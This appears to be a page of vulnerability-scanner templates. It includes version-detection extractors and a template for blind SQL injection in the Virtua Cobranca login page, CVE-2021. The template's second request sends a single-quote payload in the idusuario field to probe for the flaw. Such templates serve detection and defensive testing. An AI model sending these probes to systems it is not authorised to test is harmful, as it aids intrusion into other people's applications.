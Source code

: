 - dsl
  1. compare_versions(version, '\< 13.0.8')

### Extractors

**Type - regex**

- name - version
- internal - True
- group - 1
- regex
  1. (?m)Stable tag: ([0-9.]+)

**Type - regex**

- group - 1
- regex
  1. (?m)Stable tag: ([0-9.]+)

---

# Virtua Software Cobranca \<12R - Blind SQL Injection

## Description

- Virtua Cobranca before 12R allows blind SQL injection on the login page.

- severity - high
- tags - cve,cve2021,virtua,sqli

## Requests

### Step - 1

```
POST /controller/origemdb.php?idselorigem=ATIVOS HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

```

### Step - 2

```
POST /controller/login.php?acao=autenticar HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest

idusuario='&idsenha=test&tipousr=Usuario

```
